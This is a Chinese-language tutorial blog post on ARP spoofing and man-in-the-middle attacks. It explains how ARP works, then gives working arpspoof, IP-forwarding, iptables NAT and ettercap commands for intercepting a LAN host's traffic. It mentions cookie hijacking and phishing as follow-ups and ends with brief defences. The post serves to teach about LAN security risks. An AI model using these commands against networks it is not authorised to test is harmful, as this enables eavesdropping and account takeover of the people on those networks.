 ```yaml
---
layout: post
title:  "ARP欺骗与中间人攻击"
date:   2015-11-01 01:19:26
comments: true
categories: Tech MITM
---
```


我在上一篇 [WIFI密码破解笔记][wifi-crack]中说到如何探测附近开放的AP并且破解进入，那么进入别人据局域网我们能干些什么呢？
换句话说如果别人进入了我们内部网络，会有什么影响？本文简要介绍了ARP和MITM原理，并在实际环境中对目标主机的流量进行劫持。
可以看到公共网络中普遍存在许多不安全的问题，藉此来说说局域网中的客户端究竟面临着怎样的隐私泄漏和安全风险。

 
## ARP与MITM原理

### 什么是ARP
ARP全称为Address Resolution Protocol，即地址解析协议。是根据IP地址获取物理地址的一个TCP/IP协议。主机发送信息时将包含
目标IP地址的ARP请求广播到网络上的所有主机，并接收返回消息，以此确定目标的物理地址；收到返回消息后将该IP地址和物理地址
存入本机ARP缓存中并保留一定时间，下次请求时直接查询ARP缓存以节约资源。地址解析协议是建立在网络中各个主机互相信任的基础上的，
网络上的主机可以自主 发送ARP应答消息，其他主机收到应答报文时不会检测该报文的真实性就会将其记入本机ARP缓存；由此攻击者就可以
向某一主机发送伪ARP应答报文，使其发送的信息无法到达预期的主机或到达错误的主机，这就构成了一个ARP欺骗。ARP命令可用于查询
本机ARP缓存中IP地址和MAC地址的对应关系、添加或删除静态对应关系等。

例如，在Linux命令行下:

    #arp -a

    Address                  HWtype  HWaddress           Flags Mask            Iface
    192.168.1.1            ether    0A-11-22-33-44-01   C                     wlan0
    192.168.1.2            ether    0A-11-22-33-44-02   C                     wlan0

可以看到局域网中其他客户端的内网地址和MAC地址。

**工作过程**

现假设主机A的IP地址为192.168.1.1，MAC地址为0A-11-22-33-44-01；  
主机B的IP地址为192.168.1.2，MAC地址为0A-11-22-33-44-02；
当主机A要与主机B通信时，地址解析协议可以将主机B的IP地址（192.168.1.2）解析成主机B的MAC地址，以下为工作流程：

    第1步：根据主机A上的路由表内容，IP确定用于访问主机B的转发IP地址是192.168.1.2。然后A主机在自己的本地ARP缓存中检查主机B的匹配MAC地址。
    第2步：如果主机A在ARP缓存中没有找到映射，它将询问192.168.1.2的硬件地址，从而将ARP请求帧广 播到本地网络上的所有主机。源主机A的IP地址和MAC地址都包括在ARP请求中。本地网络上的每台主机都接收到ARP请求并且检查是否与自己的IP地址 匹配。如果主机发现请求的IP地址与自己的IP地址不匹配，它将丢弃ARP请求。
    第3步：主机B确定ARP请求中的IP地址与自己的IP地址匹配，则将主机A的IP地址和MAC地址映射添加到本地ARP缓存中。
    第4步：主机B将包含其MAC地址的ARP回复消息直接发送回主机A。
    第5步：当主机A收到从主机B发来的ARP回复消息时，会用主机B的IP和MAC地址映射更新ARP缓存。本机缓存是有生存期的，生存期结束后，将再次重复上面的过程。主机B的MAC地址一旦确定，主机A就能向主机B发送IP通信了。

**工作要素：ARP缓存**

ARP缓存是个用来储存IP地址和MAC地址的缓冲区，其本质就是一个IP地址->MAC地址的对应表，表中每一个条目分别记录了网络上其他主机的IP地址和对应的MAC地址。每一个以太网或令牌环网络适配器都有自己单独的表。
当地址解析协议被询问一个已知IP地址节点的MAC地址时，先在ARP缓存中查看，若存在，就直接返回与之对应的MAC地址，若不存在，才发送ARP请求向局域网查询。为使广播量最小，ARP维护IP地址到MAC地址映射的缓存
以便将来使用。ARP缓存可以包含动态和静态项目。动态项目随时间推移自动添加和删除。每个动态ARP缓存项的潜在生命周期是10分钟。新加到缓存中的项目带有时间戳，如果某个项目添加后2分钟内没有再使用，则此
项目过期并从ARP缓存中删除；如果某个项目已在使用，则又收到2分钟的生命周期；如果某个项目始终在使用，则会另外收到2分钟的生命周期，一直到10分钟的最长生命周期。静态项目一直保留在缓存中，直到重新启动计算机为止。

### ARP欺骗与MITM

MITM，全称为Man In The Middle，即中间人。地址解析协议是建立在网络中各个主机互相信任的基础上的，它的诞生使得网络能够更加高效的运行，但其本身也存在缺陷。ARP地址转换表是依赖于计算机中高速缓冲存储器动态
更新的，而高速缓冲存储器的更新是受到更新周期的限制的，只保存最近使用的地址的映射关 系表项，这使得攻击者有了可乘之机，可以在高速缓冲存储器更新表项之前修改地址转换表，实现攻击。ARP请求为广播形式发送的，
网络上的主机可以自主发送 ARP应答消息，并且当其他主机收到应答报文时不会检测该报文的真实性就将其记录在本地的MAC地址转换表，这样攻击者就可以向目标主机发送伪ARP应答报文，从而篡改本地的MAC地址表。ARP欺骗
可以导致目标计算机与网关通信失败，更会导致通信重定向，所有的数据都会通过攻击者的机器。攻击者再对目标和网关之间的数据进行转发，则可作为一个“中间人”，实现监听目标却又不影响目标正常上网的目的。

**攻击实现**

具体的中间人攻击，大体上可以分为以下几个步骤：

    1. 对目标主机进行ARP欺骗，声称自己是网关。
    2. 转发目标的NAT数据到网关，维持目标的外出数据。
    3. 对网关进行ARP欺骗，声称自己是目标主机。
    4. 转发网关的NAT数据到目标主机，维持目标的接收数据。
    5. 监听劫持或者修改目标的进入和外出数据，从而实现攻击。

其中1，3都是ARP欺骗；2，4都是转发，下面会分别说到。

**ARP欺骗**

ARP欺骗又叫ARP投毒（ARP poisoning），实现方式有很多，但其原理都是通过不断向攻击目标发送ARP replies，从而实现重定向从一个主机（或所有主机）到另一个主机的数据包的目的。
这里以dsniff工具集的arpspoof命令为例：

    #arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

    其中，
    -i 指定使用的接口。
    -c 指定当还原arp配置时t使用的MAC地址，默认为使用原来的MAC。（即当停止arpspoof命令后，默认取消毒化）
    -t 指定要毒化的主机，如果不指定的话默认为局域网下所有主机。
    -r 双向毒化（host和target），从而双向扑捉数据。（仅当同时指定 -t的时候才有效）
    host 为你想要伪装成的主机，通常是本地网关。所有从target到host的数据包都被重定向到本机。
 
**数据流转发**

毒化了目标主机的ARP缓存表之后，其经过网关外出的数据流将会发送到攻击者的主机。但此时由于目的地址出错，目标主机对外的请求将无法到达，亦即无法访问互联网了。为了维持目标正常上网，需要我们在
收到目标来的数据时将其进行转发到真正的网关。

首先开启端口转发，允许本机像路由器一样转发数据：

    #echo 1 > /proc/sys/net/ipv4/ip_forward

有时不能这样直接修改，还有另外一种方法

    修改/etc/sysctl.conf文件，使得net.ipv4.ip_forward = 1；等于0为不转发。然后更新：
    # sysctl -p
    或者直接
    # sysctl -w net.ipv4.ip_forward=1

此时本机收到的数据包含源地址和目的地址（外网地址），我们需要将其转发到网关。这里进行了（NAT）网络地址转换的功能，关于NAT可参考我前一篇文章[P2P通信原理与实现][p2p]：

    #iptables -t nat -A POSTROUTING -p tcp -s 192.168.1.0/24 -j SNAT --to-source 192.168.1.110

    这条命令的作用是修改本机的转发规则，将所有从本机出去的源地址为192.168.1.XXX的数据包都修改为本机地址192.168.1.110
    其中，
    -t 指定要操作的表，这里是nat
    -A 即--append，表示增加一条规则。nat有三个内建规则，分别是
    　　PREROUTING，在数据包进入时改变其地址
    　　POSTROUTING，在数据包将要出去时改变其地址
    　　OUTPUT，在路由前改变本地产生的数据包地址
    -p 表示数据包要检查的协议
    -s 指定源地址。地址格式可以是网络名字，主机名字，IP地址或者是address/mask格式的网络地址。可以指定多个，-s前加!表示取补集
    -j 指定规则的目标，即如果数据包符合规则该如何做；SNAT表示修改数据包的源地址，且此次链接的余下数据包都不再检查
    --to-source 在SNAT选项下指定所转发数据包的新的源地址，这里设为192.168.1.110，即攻击者的地址

关于iptables的详细用途可以man iptables查看。上述命令描述了外出数据的转发规则，那么从外部来的数据要转发到被攻击主机上也是同理：

    # iptables -t nat -A PREROUTING -p tcp -d 192.168.1.110 -j DNAT --to 192.168.1.114

在本机转发之前将数据包目的地址为192.168.1.110的修改为192.168.1.114（被攻击主机），然后转发出去。

 
**其他工具**

　　上面为了说明原理，吧arp毒化和数据转发分开做，其实利用现有的工具，可以很简单地执行上面的工作，例如用ettercap：

    #ettercap -i wlan0 -Tq -M arp:remote /target/ /host/

一条命令即可完成arp毒化和转发的功能。其中-M表示指定MITM攻击。

 
**后记**

　　一旦中间人建立攻击成功，劫持了目标的上网流量，那么接下来也就为所欲为了。轻则监控目标的上网行为，就如同二十四小时站在你身后看你上网；或者劫持目标的cookie从而用目标的帐号登录诸如微博，人人，
豆瓣等社交网站，浏览其隐私数据，进行发贴删贴等操作；重责进行钓鱼攻击，使目标下载恶意程序或者执行恶意脚本，从而威胁其计算机安全。当然，应对这种攻击的防范方法也有很多，最简单的一种就是绑定MAC地址，
并且在网关MAC地址改变的时候发出提醒，从而防止ARP毒化攻击。还有就是最好不要在公共WiFi下浏览有重要隐私的网站，万一碰上不怀好意的人就在局域网中，那可就是真的“在阳光下行走”了。

[wifi-crack]: http://pannzh.github.io/tech/mitm/2015/10/31/wifi-crack.html
[p2p]: http://pannzh.github.io/tech/p2p/mitm/2015/10/31/p2p-over-middle-box.html

